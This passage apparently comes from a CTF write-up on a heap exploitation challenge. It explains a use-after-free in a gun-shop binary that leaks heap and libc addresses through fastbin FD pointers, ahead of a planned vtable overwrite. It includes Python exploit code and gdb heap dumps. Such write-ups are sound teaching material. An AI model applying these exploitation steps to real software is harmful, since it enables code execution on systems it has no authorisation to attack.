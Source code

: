 This function gives us a possible leak with the name of the gun (which might be free'd and thus containing a heap pointer), and as soon as we'll be able to overwrite the vtable pointer, it will also execute our payload.

So let's first leak a heap address, which we'll need to calculate the address, where our fake vtable will be stored. For this we'll create a *small* gun (fastbin size).

```python
def exploit(r):
	r.recvuntil("Exit\n")
	
	buy(1, 10, "AAAABBBBCC")

	renamegun(0, 8, "AAAABBB")

	dropgun(0)

	HEAPLEAK = u32(usegun(0)[len("Select gun "):-4])
```

This will buy a gun, initializing the gun to

```
0x58075a00:	0x00000000	0x00000000	0x00000000	0x00000019
0x58075a10:	0x5664ed30	0x58075a28	0x0000000f	0x0000000f
0x58075a20:	0x00000000	0x00000011	0x41414141	0x42424242  <-- Name
0x58075a30:	0x00000043	0x000205d1	0x00000000	0x00000000
```

Renaming the gun will free the memory for the name, putting it in the fastbin list, and allocate another memory area for the new name

```
0x58075a00:	0x00000000	0x00000000	0x00000000	0x00000019
0x58075a10:	0x5664ed30	0x58075a38	0x0000000f	0x0000000f
0x58075a20:	0x00000000	0x00000011	0x00000000	0x42424242 <-- Old name
0x58075a30:	0x00000043	0x00000011	0x41414141	0x00424242 <-- New name
0x58075a40:	0x00000000	0x000205c1	0x00000000	0x00000000
```

Dropping the gun will then free the new name also, putting this one in the fastbin list, and the address of the previous fastbin in it's FD pointer.

```
0x58075a00:	0x00000000	0x00000000	0x00000000	0x00000019
0x58075a10:	0x00000000	0x58075a38	0x0000000f	0x0000000f
0x58075a20:	0x00000000	0x00000011	0x00000000	0x42424242
0x58075a30:	0x00000043	0x00000011	0x58075a20	0x00424242 <-- New name (with FD pointing to old name)
0x58075a40:	0x00000000	0x000205c1	0x00000000	0x00000000
```

Since this gun is still *selected*, we can still *use* it, which will show it's name, containing the address of the old name on the heap. So we have a heap address to start with. But to calculate the needed libc offsets, we'd need a leak for a libc address also. 

Well, we can get it the same way, just allocating a gun with a bigger name this time, so it won't be put in fastbin list. Thus we'll get a FD pointer to main_arena when dropping this one.
